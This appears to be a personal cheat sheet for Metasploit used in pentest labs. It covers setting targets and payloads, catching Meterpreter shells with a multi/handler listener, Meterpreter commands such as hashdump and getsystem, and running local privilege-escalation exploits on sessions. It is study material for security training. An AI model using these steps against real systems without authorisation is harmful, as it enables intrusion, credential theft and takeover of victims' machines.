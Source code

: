 # Metasploit

This page is just basic stuff I forget all the time. There are other Metasploit tips in sections where it's relevant.

## Advanced options

Metasploit is so derp-easy that you can often exploit a machine by setting the remote IP in `RHOST` and hitting the pew-pew button. 

But sometimes that doesn't work and you cry because you know you're just a lame script kiddie pretending to be a hacker. However, you can aspire to be a _decent_ script kiddie by knowing how to use more advanced options in Metasploit.

Exploits might not work because of an unusual configuration or path issue, which you can set with either `show options` or  `show advanced`. The `advanced` section may let you set`verbose = true` to provide more information about why an exploit isn't working.

You might also need to set the correct target:

```text
show targets
set target [target number]
```

[MSO8-067](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi) sometimes needs this because the module can't always identify the exact operating system version and language pack.

It's also important to pay attention to the default payload. Occasionally, you'll run into something weird like an Apache web server running on Windows, so the default Unix payload won't work. 

Check and modify the payload:

```text
show payloads
set payload [whatever]
```

## Meterpreter

To catch shells using meterpreter:

```text
use exploit/multi/handler
set LHOST [attack machine]
set LPORT 443
run
```

If you're VPNed into a lab, pay attention to the IP address. I've noticed that the first time this module runs, it defaults to `eth0` and you have to restart it to use something like `tap0`.

### Basic commands
Frequently used commands, mostly to enumerate a victim machine:

```
getuid      # get current user
sysinfo     # gets OS and hostname
execute     # executes a command
cd          # change directory
pwd         # print working directory
ls          # list files in current directory
mkdir       # make a directory
del         # delete a file
cat         # read the contents of a file
download    # download a file to your machine
hashdump    # get contents of password file
edit        # edit a file with vim
rm          # delete a file
rmdir       # remove directory
upload      # upload a file to the victim
background  # moves the current session to the background
ps          # list running processes
migrate     # moves the active process to a designated PID
getpid      # gets the current process ID (PID)
kill        # terminate a process by PID
ipconfig    # display network interfaces
portfwd     # forwards a port on the victim to a remote service
route       # view or modify routing table
getprivs    # gets as many privileges as possible
getsystem   # get Administrator
reboot      # reboot the victim
shutdown    # shut down the victim
reg         # interact with the victim's registry
```

### Sessions

Meterpreter is nice because it lets you maintain multiple shell sessions and use local exploits against them. For example, the [Rejetto exploit](https://www.exploit-db.com/exploits/39161/) always seems to fire a few times and with meterpreter, you can catch every shell session with a single listener.

To list active sessions:

```text
sessions -l
```

To enter a session:

```text
sessions -i [session number]
```

To enter a shell from a session \(not use meterpreter commands\):

```text
shell
```

To exit the shell and return to meterpreter, type `exit`.

### Local exploits

Once you have a meterpreter shell, you can scan for local exploits and run them. Unlike remote exploits which target using IP addresses, local exploits run against a chosen shell session.

To access local exploits, you'll need to jump out of meterpreter using `background` and select one with the `use` command:

```text
meterpreter > background
use /exploit/windows/whatever
show options
[edit options as needed]
set SESSION [session number]
run
```

The one useful exception I've noticed is the exploit suggester for Windows which can be run from the meterpreter prompt:

```text
meterpreter > run /post/multi/recon/local_exploit_suggester
```

